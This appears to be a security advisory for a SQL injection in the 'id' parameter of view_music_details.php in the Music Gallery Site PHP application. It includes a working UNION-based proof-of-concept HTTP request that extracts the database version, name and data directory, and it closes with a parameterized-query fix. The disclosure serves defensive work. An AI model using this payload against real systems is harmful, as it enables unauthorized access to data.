 # Music Gallery Site - SQL Injection on page view_music_details.php and parameter id is vulnerable. 
>Any remote attacker can access this page to exploit the vulnerbility.
### Date: 
> 21 February 2023
### Author Name: 
> Muhammad Navaid Zafar Ansari
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Music Gallery Site](https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.

# Vulnerable URL:
> URL: php-music/view_music_details.php?id=*

### Affected Page:
> view_music_details.php
> On this page cid parameter is vulnerable to SQL Injection Attack
> URL of the vulnerable parameter is: php-music/view_music_details.php?id=*
### Description:
> The Music Gallery site does have public pages for music library. Whenever someone click on info button any music the popup will appear on the same page. However, on backend server calls the file view_music_detail.php where Get id parameter is vulnerable to SQL Injection.
### Proof of Concept:
> Following steps are involved:
1. Go to the music list and click on view info of any music.
2. intercept the traffic through burp and get the actual URL
3. In URL, there is a parameter 'id' which is vulnerable to SQL injection (view_music_details.php?id=1*)
### Request:
```
GET /php-music/view_music_details.php?id=1%27+and+false+union+select+1,version(),database(),4,@@datadir,6,7,8,9,10,11--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=a5fd11866a86264db3a68bb1817b2c7f
Connection: close
```
### Response:
![image](https://user-images.githubusercontent.com/123810418/220317330-519b0112-85fd-4c6f-bf35-446216d73549.png)

### Recommendation:
> Whoever uses this CMS, should update the code of the application in to parameterized queries to avoid SQL Injection attack:
```
Example Code: 
$sql = $obj_admin->db->prepare("SELECT * from `music_list` where id = :id and delete_flag = 0");
$sql->bindparam(':id', $id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```
Thank you for reading
